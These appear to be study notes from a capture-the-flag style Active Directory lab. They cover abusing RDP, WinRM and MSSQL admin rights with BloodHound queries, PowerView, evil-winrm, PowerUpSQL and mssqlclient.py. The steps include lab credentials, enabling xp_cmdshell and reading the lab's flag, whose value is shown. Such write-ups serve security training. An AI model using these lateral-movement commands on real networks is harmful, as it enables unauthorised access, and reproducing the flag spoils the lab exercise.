 # Privileged Access

## Remote Desktop Protocol (RDP) | Bloodhound : CanRDP

Bloodhound : CanRDP

Enumerating the Remote Desktop Users Group
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"

ComputerName : ACADEMY-EA-MS01
GroupName    : Remote Desktop Users
MemberName   : INLANEFREIGHT\Domain Users
SID          : S-1-5-21-3842939050-3880317879-2865463114-513
IsGroup      : True
IsDomain     : UNKNOWN

--> all domain users can RDP to this host

Checking the Domain Users Group's Local Admin & Execution Rights using BloodHound
Node Info > Execution Rights

Checking Remote Access Rights using BloodHound
Analysis 
> Find Workstations where Domain Users can RDP
> Find Servers where Domain Users can RDP

Tools :
xfreerdp
Remmina
mstsc.exe

## PSRemoting or Windows Remote Management (WinRM) | Bloodhound : CanPSRemote

Bloodhound : CanPSRemote

Enumerating the Remote Management Users Group
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"

ComputerName : ACADEMY-EA-MS01
GroupName    : Remote Management Users
MemberName   : INLANEFREIGHT\forend
SID          : S-1-5-21-3842939050-3880317879-2865463114-5614
IsGroup      : False
IsDomain     : UNKNOWN

Custom Cypher Query in Bloodhound
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2

### Establishing WinRM Session from Windows
$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
Enter-PSSession -ComputerName ACADEMY-EA-DB01 -Credential $cred
PS C:\htb> 

### Establishing WinRM Session from Linux
gem install evil-winrm
evil-winrm
evil-winrm -i 10.129.201.234 -u forend
Enter Password: 
after evil-winrm established : upload/download file from hosting VM


## MSSQL Server | Bloodhound : SQLAdmin

Bloodhound : SQLAdmin

Find SQL credentials : Snaffler to find web.config

Custom Cypher Query in Bloodhound
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2

### Enumerating MSSQL Instances with PowerUpSQL
cd .\PowerUpSQL\
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain

ComputerName     : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL
Instance         : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL,1433
DomainAccountSid : 1500000521000170152142291832437223174127203170152400
DomainAccount    : damundsen
DomainAccountCn  : Dana Amundsen
Service          : MSSQLSvc
Spn              : MSSQLSvc/ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL:1433
LastLogon        : 4/6/2022 11:59 AM

Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'
Column1
-------
Microsoft SQL Server 2017 (RTM) - 14.0.1000.169 (X64) ...

### mssqlclient.py

Displaying mssqlclient.py Options
mssqlclient.py

Running mssqlclient.py Against the Target
mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth

SQL> help

Choosing enable_xp_cmdshell
SQL> enable_xp_cmdshell

Enumerating our Rights on the System using xp_cmdshell
xp_cmdshell whoami /priv

## LAB

xfreerdp /u:htb-student /p:"Academy_student_AD!" /v:$TARGET

PS C:\Windows\system32> hostname
ACADEMY-EA-MS01

cd c:\tools
Import-Module .\PowerView.ps1
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"

Get-DomainGroup -Identity "Remote Management Users" | select memberof

.\SharpHound.exe -c All --zipfilename ILFREIGHT
bloodhound
Upload Data
domain : INLANEFREIGHT

Raw query 
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2

bdavis ---CanPSRemote---> ACADEMY-EA-DC01 



xfreerdp /u:damundsen /v:$TARGET
SQL1234!



cd c:\tools
cd .\PowerUpSQL\
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain

ssh htb-student@172.16.5.225
HTB_@cademy_stdnt!

mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
SQL1234!

SQL> enable_xp_cmdshell
[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.

xp_cmdshell type C:\Users\damundsen\Desktop\flag.txt
output

--------------------------------------------------------------------------------

1m_the_sQl_@dm1n_n0w!